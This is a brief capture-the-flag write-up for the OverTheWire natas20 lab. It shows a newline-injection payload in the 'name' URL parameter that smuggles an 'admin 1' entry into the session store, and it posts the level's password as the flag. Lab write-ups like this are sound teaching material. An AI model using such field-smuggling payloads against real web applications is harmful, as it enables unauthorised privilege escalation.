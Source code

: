 ```yaml
---
layout: default
title: natas20
---
```




here we exploit a logic error in the source code. we give this input 
```
hello 
admin 1
```
and after 2 entrances we'll get the password.

`http://natas20.natas.labs.overthewire.org/index.php?name=hello%0Aadmin%201`


**Flag:** ***`BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`*** 